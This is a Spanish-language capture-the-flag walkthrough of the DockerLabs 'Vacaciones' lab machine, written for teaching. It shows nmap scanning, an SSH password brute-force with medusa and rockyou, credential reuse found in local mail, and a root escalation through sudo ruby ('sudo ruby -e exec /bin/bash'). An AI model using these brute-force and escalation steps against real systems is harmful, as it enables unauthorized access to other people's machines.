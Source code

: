 # [Vacaciones](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh vacaciones.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2` 
![ping](https://github.com/TerrorAterrador/WriteUps/assets/128630899/c84ab9ce-1758-4a9c-8679-a7ee2a43c3be)
<br>
`-c 1` ⮞ solo lo repite una vez<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>
Podemos ver los reultados en el archivos grepeable haciendo `cat allPorts`, observamos que están abiertos los puertos **22** y **80**
![nmap](https://github.com/TerrorAterrador/WriteUps/assets/128630899/ef28633b-ba49-4df1-8d2d-4efc516c8471)
<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Podemos ver que la página está completamente en blanco. <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/9590b22b-e92e-4576-8c81-8e00036f3abb)
<br>
<br>
Pasemos a ver el código fuente `click derecho View Page Source`, vemos que hay un comentario y encontramos dos nombres **Juan** y **Camilo** <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/bfc48768-91de-4173-aa7a-b2db3458600c)
<br>
<br>
## Medusa / Hydra
Ahora conocemos dos usuarios con posibilidades de ser candidatos a pertenecer a la máquina Vacaciones. Gracias a medusa haremos un ataque de fuerza fruta al puerto 22, el cual aloja el servicio SSH. `medusa -h 172.17.0.2 -U users -P /usr/share/wordlists/rockyou.txt -M ssh` <br>
`-h` ⮞ dirección IP de la máquina victima <br>
`-U` ⮞ el archivo con los posibles usuarios es decir (camilo,juan) <br> 
`-P` ⮞ ruta al diccionario [rockyou]([rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
`-M` ⮞ modulo que sería el protocolo ssh <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/b61cd171-07c5-44f4-9510-1adf069b785f)
<br>
<br>
## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probramos a entrar a la máquina Vacaciones con `ssh camilo@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solción.* ![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/a9aa6ab0-8f37-4306-baa4-928cfac2bc3f) 


## Escala de Privilegios
Comprobamos que hemos podido ingresar a la Máquina Víctima como **camilo**, podemos escribir `bash` para poder estar más cómodos operando en la máquina. <br>
Si ejecutamos `sudo -l` podemos ver que no podemos correr nada como sudo.<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/32048e1e-4f33-4de4-ad64-8ebb9cc44714)
 <br>
 <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>
<br>
<br>
Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/5c7f9741-947c-4ef3-ae77-1e4bd20360c9)
<br>
`/` ⮞ buscamos desde la raíz
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>
<br>
<br>
Por lo que ahora deberíamos buscar el correo que había enviado Juan para Camilo si hacemos `find / -name "correo" 2>/dev/null`, vemos que no hay nada. <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/4ab0c8ef-4680-4362-8eeb-69b827c94198)
 <br>
 <br>
`-name` ⮞ nombre que queremos encontrar <br>
En cambio si probamos a filtrar por **mail** `find / -name "mail" 2>/dev/null` nos encontramos con lo siguiente: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/a124a789-1550-47a9-86d2-00c346672ffb)
<br>
<br>
Por lo que nos dirigimos a esa ruta **/var/mail** vemos que dentro de la carpeta camilo hay un archivo llamado **correo.txt** y si hacemos `cat correo.txt` vemos lo siguiente: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/fa0424d5-95a0-49bc-b68a-36359364d7b9)
<br>
<br>
Por lo que vamos a a probar camibar al usuario **juan** que era el que había enviado el correo, si hacemos `su juan` para cambiar de usuario y ponemos la contraseña, vemos que hemos cambiado al usuario juan.<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3152c784-7761-4885-ab5d-947cf823b1aa)
<br>
<br>
Ahora que estamos como juan vamos a listar los permisos que podemos ejecutar como **sudo** con `sudo -l`, y vemos que podemos ejecutar **/usr/bin/ruby**. <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/6ffb810b-3612-4bbb-bd5c-eca73f2643db)
<br>
<br>
Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en ruby, y nos encontramos con el siguiente comando `sudo ruby -e 'exec "/bin/bash"'`, probamos a ejecutarlo en la máquina y listo hemos elevado a root. <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/375ab6da-cf9a-4cec-af6a-47237ba931e8)






